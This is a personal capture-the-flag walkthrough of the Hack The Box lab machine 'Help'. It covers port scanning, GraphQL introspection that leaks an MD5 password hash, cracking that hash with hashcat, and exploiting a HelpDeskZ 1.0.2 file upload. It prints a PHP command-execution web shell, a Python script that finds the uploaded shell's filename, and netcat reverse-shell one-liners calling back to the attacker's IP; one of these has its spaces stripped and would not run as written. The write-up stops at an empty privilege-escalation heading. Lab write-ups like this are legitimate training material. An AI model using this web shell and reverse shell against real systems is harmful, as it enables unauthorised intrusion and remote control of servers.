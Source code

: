 ```
sudo nmap -sS -sV -p- 10.10.10.121
[sudo] password for wizardwalter: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-27 19:53 EDT
Nmap scan report for 10.10.10.121
Host is up (0.034s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.18
3000/tcp open  http    Node.js Express framework
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

looks like they are running apache webserver with nodejs backend....

i went to the ip in my browser and it is trying to resolve to help.htb so i will add it to etc/hosts file...

i will run gobuster against this:
```
gobuster dir -u http://help.htb/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -t 50 -x php,html,txt

....
index.html           (Status: 200) [Size: 11321]
/index.html           (Status: 200) [Size: 11321]
/javascript           (Status: 301) [Size: 309] [--> http://help.htb/javascript/]
/server-status        (Status: 403) [Size: 296]
/support              (Status: 301) [Size: 306] [--> http://help.htb/support/]
```

/javascript leads me to a 403.... but support i find a helpdesk application:
![[Pasted image 20250827200322.png]]

real quick i will search if there is any vulns and keep note of them:
```
searchsploit HelpDeskZ
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                             |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
HelpDeskZ 1.0.2 - Arbitrary File Upload                                                                                                                                                                    | php/webapps/40300.py
HelpDeskZ < 1.0.2 - (Authenticated) SQL Injection / Unauthorized File Download                                                                                                                             | php/webapps/41200.py
Helpdeskz v2.0.2 - Stored XSS                                                                                                                                                                              | php/webapps/52068.txt
```

cool may be useful!

lets go try and hit port 3000 now....
i get a screen that shows:
`"Hi Shiv, To get access please find the credentials with given query"`

![[Pasted image 20250827201137.png]]

after gobuster failed.... i tried hitting endpoints on my own like nodejs, express, etc finally graphql gave me:
![[Pasted image 20250827201057.png]]

after trying a ton of combos i resorted to curl and hit something:
```
curl -X POST http://help.htb:3000/graphql \
  -H "Content-Type: application/json" \
  -d '{"query":"{ __schema { types { name fields { name } } } }"}'

{"data":{"__schema":{"types":[{"name":"Query","fields":[{"name":"user"}]},{"name":"User","fields":[{"name":"username"},{"name":"password"}]},{"name":"String","fields":null},{"name":"__Schema","fields":[{"name":"types"},{"name":"queryType"},{"name":"mutationType"},{"name":"subscriptionType"},{"name":"directives"}]},{"name":"__Type","fields":[{"name":"kind"},{"name":"name"},{"name":"description"},{"name":"fields"},{"name":"interfaces"},{"name":"possibleTypes"},{"name":"enumValues"},{"name":"inputFields"},{"name":"ofType"}]},{"name":"__TypeKind","fields":null},{"name":"Boolean","fields":null},{"name":"__Field","fields":[{"name":"name"},{"name":"description"},{"name":"args"},{"name":"type"},{"name":"isDeprecated"},{"name":"deprecationReason"}]},{"name":"__InputValue","fields":[{"name":"name"},{"name":"description"},{"name":"type"},{"name":"defaultValue"}]},{"name":"__EnumValue","fields":[{"name":"name"},{"name":"description"},{"name":"isDeprecated"},{"name":"deprecationReason"}]},{"name":"__Directive","fields":[{"name":"name"},{"name":"description"},{"name":"locations"},{"name":"args"}]},{"name":"__DirectiveLocation","fields":null}]}}}
```

looking through docs.... took me forever but i was able to make this query:
```
curl -s -X POST http://help.htb:3000/graphql \
  -H "Content-Type: application/json" \
  -d '{"query":"{ __schema { queryType { fields { name args { name type { name kind ofType { name kind } } } } } } }"}'

{"data":{"__schema":{"queryType":{"fields":[{"name":"user","args":[]}]}}}}
```

and with that i can run:
```
curl -s -X POST http://help.htb:3000/graphql \
  -H "Content-Type: application/json" \
  -d '{"query":"{ user { username password } }"}'

{"data":{"user":{"username":"helpme@helpme.com","password":"5d3c93182bb20f07b994a7f617e99cff"}}} 
```

very nice!
that `5d3c93182bb20f07b994a7f617e99cff` looks like an **MD5 hash** (32 hex chars)....

if 32 char, is most of the time a md5 hash but

lets run nth on it:
```
nth --text 5d3c93182bb20f07b994a7f617e99cff

......

https://twitter.com/bee_sec_san
https://github.com/HashPals/Name-That-Hash 
    

5d3c93182bb20f07b994a7f617e99cff

Most Likely 
MD5, HC: 0 JtR: raw-md5 Summary: Used for Linux Shadow files.
MD4, HC: 900 JtR: raw-md4
NTLM, HC: 1000 JtR: nt Summary: Often used in Windows Active Directory.
Domain Cached Credentials, HC: 1100 JtR: mscach

```

we can now try hashcat with all of these(though i bet it is md5):
```
hashcat -m 0 -a 0 hash.txt /usr/share/wordlists/rockyou.txt

......

5d3c93182bb20f07b994a7f617e99cff:godhelpmeplz 
```

nice!

`helpme@helpme.com:godhelpmeplz`

lets go back to the website from before at `/support`

We know it is running helpdeskz and that there are some vulns... i am gonna google more about it to see....

We are gonna assume it is running on 1.0.2 as that seems to be vuln and i cant find out the version!

looking back at our searchsploit from earlier looks like it is all 1.0.2:
ok i am going to upload a php reverse shell based on what the exploit says:
```
<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}
```

i could not get the exploit 40300 to work correctly so i found that we need to upload the file to /uploads/tickets/:
```
cat exploit.py     
import hashlib
import time
import sys
import requests

print 'Helpdeskz v1.0.2 - Unauthenticated shell upload exploit'

if len(sys.argv) < 3:
    print "Usage: {} [baseUrl] [nameOfUploadedFile]".format(sys.argv[0])
    sys.exit(1)

helpdeskzBaseUrl = sys.argv[1]
fileName = sys.argv[2]

currentTime = int(time.time())

for x in range(0, 300):
    plaintext = fileName + str(currentTime - x)
    md5hash = hashlib.md5(plaintext).hexdigest()

    url = helpdeskzBaseUrl+'/uploads/tickets/'+md5hash+'.php'
    response = requests.head(url)
    if response.status_code == 200:
        print "found!"
        print url
        sys.exit(0)

print "Sorry, I did not find anything"
```

looks like it is the same other than that!

Now we go to the /support url and upload the simpleshell.php, which it will error but that is ok cause in the source code we see that the file is still actually uploaded to /uploads/tickets/
Now we are almost ready:
Do this first as kali does not work well with python2:

```
python3 -m venv venv

source venv/bin/activate
```

you will be popped into a virtual env(might work without but my kali does not like python2 :idk:)

So now that we uploaded our shell above and it errors saying file not aloud, we must act fast and run the exploit or this will not work, trust me i must have taken too long to type out the exploit command or went and made sure but that range(0,300) is basically our timer, with that said:

`python2 ./exploit.py http://help.htb/support simpleshell.php`

will give us the url to hit the shell:

`http://help.htb/support/uploads/tickets/731e9b618acc249dcfd97d1ed7deba72.php`

make sure help.htb is added to your etc/hosts fyi or this wont work

we can now test:
`http://help.htb/support/uploads/tickets/731e9b618acc249dcfd97d1ed7deba72.php?cmd=whoami`

`help`

bang we are in!

Lets now do a reverse shell back to our kali and get in there:
```
help.htb/support/uploads/tickets/731e9b618acc249dcfd97d1ed7deba72.php?cmd=rm %2Ftmp%2Ff%3Bmkfifo %2Ftmp%2Ff%3Bcat %2Ftmp%2Ff|%2Fbin%2Fsh -i 2>%261|nc 10.10.14.25 4444 >%2Ftmp%2Ff
```

Now this took me forever to get, i tried multiple bash, tcp shells and none worked i found this deep on google and redid it for my port and ip:
```
rm/tmp/f;mkfifo/tmp/f;cat/tmp/f|/bin/sh-i2>&1|nc10.10.14.254444>/tmp/f
```

I catch my shell and get user.txt at /home/help/user.txt:
```
cat user.txt
8c4c0c99681************
```

USER PWNED!

---
### Priv Esc




